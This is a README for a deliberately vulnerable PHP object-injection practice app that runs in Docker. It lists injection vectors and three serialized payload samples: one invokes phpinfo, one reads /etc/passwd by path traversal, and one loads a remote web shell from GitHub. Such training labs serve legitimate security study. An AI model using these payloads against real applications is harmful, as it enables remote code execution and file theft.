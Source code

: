 # PHP Object Injection playground

A simple exhibition application which suffers from multiple object injection vulnerabilities. Application runs under 
various versions of php simultaneously. Created just for testing purposes.

PHP versions: 
 * PHP 5.6
 * PHP 7.1
 * PHP 7.3

You can easily change the active version of php from the top right menu of the web app.
## Requirements
 * Docker

## Starting the app
```bash
$ docker-compose up -d
```

It will start 4 containers 
 * NGINX
 * PHP 5.6
 * PHP 7.1
 * PHP 7.3

## Vulnerability types
 * GET/POST Params and forms
 * COOKIES
 * HEADERS
 
## Payload samples
 * O:19:"Components\Evaluate":1:{s:5:"param";s:7:"phpinfo";}
 * O:15:"Components\File":1:{s:8:"filename";s:31:"../../../../../../../etc/passwd";}
 * O:15:"Components\File":1:{s:8:"filename";s:68:"https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php";}
 
 ## Authors
 * **georlav** - *Initial work*
 